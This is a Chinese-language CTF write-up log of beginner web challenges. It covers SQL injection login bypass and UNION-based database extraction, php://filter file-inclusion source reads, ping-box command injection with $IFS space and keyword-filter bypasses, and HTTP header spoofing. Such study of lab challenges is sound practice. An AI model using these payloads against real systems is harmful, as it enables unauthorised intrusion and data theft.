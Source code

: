 # My bad

## 2021/06/30

### EasySQL

> 极客大挑战 2019

#### 题目

题目本身就是把用户输入放进一对单引号之中，想办法闭合单引号即可，无难度

#### payload

```
?username=bme&password=1' or '1'='1
```

## 2021/07/01

### Have fun

> 极客大挑战 2019

#### 题目

题目比较简单，打开页面源码，发现源码也包含在其中，发送Get请求`cat=dog`得到flag

```php
$cat=$_GET['cat'];
echo $cat;
if($cat=='dog'){
    echo 'Syc{cat_cat_cat_cat}';
}
```

#### payload

```
?cat=dog
```

### Include

> ACTF 2020

#### 题目

F12打开源码，发现一个`?file=flag.php`链接，点进去发现啥都没有，那只能先试试**伪协议**文件包含flag.php，得到base64的代码，解码后得到flag

#### payload

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

### Secret File

> 极客大挑战 2019

#### 题目

F12打开源码，发现一个`./Archive_room.php`的链接，点进去有一个**secret**按钮，点进去发现查阅结束，需要用Burp截包，截下数据包发现，有一个**302跳转**，其中包含`secr3t.php`页面，发现源代码。

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
```

还是经典的伪协议读取，读取`flag.php`，得到flag

#### payload

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

### Exec

> ACTF 2020

#### 题目

给了一个可以ping的框，F12打开源码，发现是命令执行，直接在框里输入命令绕过`127.0.0.1;ls`，得到目录下文件`index.php`，cat命令阅读源码，`ls`搜索目录发现上层目录中有`flag`文件，获取flag

```php
<?php 
if (isset($_POST['target'])) {
	system("ping -c 3 ".$_POST['target']);
}
?>
```

#### payload

```
127.0.0.1;ls -al /
```

## 2021/07/02

### LoveSQL

> 极客大挑战 2019

#### 题目

从名字就可以看出来，SQL注入的题，进来是个登录页面，随便输一下，Get请求发送`username`和`password`两个参数，从`password`下手试一下万能密码，竟然登录进去了，看起来是要在库里面找东西，还有回显的`username`和`password`，直接注入，比较简单

#### payload

```
?username=1&password=1' union select 1,2,'3

?username=1&password=1' union select 1,database(),'3 // return geek

?username=1&password=1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='geek'),'3 //return l0ve1ysq1

?username=1&password=1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1'),'3 //return id,username,password

?username=1&password=1' union select 1,(select group_concat(password) from l0ve1ysq1),'3 // return flag
```

### Ping Ping Ping

> GXYCTF 2019

#### 题目

还是个ping命令的题，直接上`;ls`，回显出两个文件，直接`cat`读取，被拦截了（），试试绕过，发现很多符号也被过滤了，用命令执行的绕过`$IFS$9`来绕过空格，显示出源码，发现flag被正则表达式包住了，这里采用拼接的形式进行绕过

```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}

?>
```

#### payload

```
?ip=;a=g;cat$IFS$9fla$a.php
```

### Knife

> 极客大挑战 2019

#### 题目

题目没啥好说的，直接**蚁剑/菜刀**连就行了

#### payload

### Http

> 极客大挑战 2019

#### 题目

Burp搜索站点，可以发现一个隐藏页面`Secret.php`，访问发现返回`It doesn't come from 'https://www.Sycsecret.com'`，那就添加`Referer`，发现又返回`Please use "Syclover" browser`，改`User-Agent`，发现又返回`No!!! you can only read this locally!!!`，添加`X-Forwarded-For:127.0.0.1`，拿到flag

#### payload

```http
GET /Secret.php HTTP/1.1
Host: node3.buuoj.cn:28969
Referer:https://www.Sycsecret.com
X-Forwarded-For:127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent:Syclover
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a52dafb251c-0133abcdf6c6a9-6373264-384000-17a52dafb261436
Connection: close
```

